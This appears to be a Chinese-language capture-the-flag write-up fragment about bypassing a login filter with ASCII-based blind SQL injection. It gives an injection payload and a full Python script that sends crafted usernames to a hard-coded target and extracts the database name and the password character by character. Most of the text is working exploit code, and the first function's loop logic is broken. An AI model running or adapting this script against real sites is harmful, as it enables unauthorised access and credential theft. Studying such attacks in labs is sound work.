 fuzz 后发现过滤了  =，空格、and、or都被过滤了，但是>、<、^没有被过滤，所以这里使用ascii盲注

payload:

```
username = admin'^(ascii(mid((password)from(1)))>1)%23
```

脚本如下

```
import requests
str_all="1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ {}+-*/="
url="http://123.206.31.85:49167/index.php"
r=requests.session()
 
def databasere():
    resutlt=""
    for i in range(30):
        fla = 0
        for j in str_all:
            playlod="admin'^(ascii(mid(database()from({})))<>{})^0#".format(str(i),ord(j))
            data = {
                "username": playlod,
                "password": "123"
            }
            s=r.post(url,data)
            print(playlod)
            if "error" in s.text:
                resutlt+=j
                print(resutlt)
            if fla == 0:
                break
def password():
    resutlt=""
    for i in range(40):
        fla=0
        for j in str_all:
            playlod = "admin'^(ascii(mid((password))from({})))<>{})^0#".format(str(i+1),ord(j))
            data = {
                "username": playlod,
                "password": "123"
            }
            s=r.post(url,data)
            print(playlod)
            if "error" in s.text:
                resutlt+=j
                fla=1
                print('**************************',resutlt)
        if fla==0:
            break
databasere()
password()
```

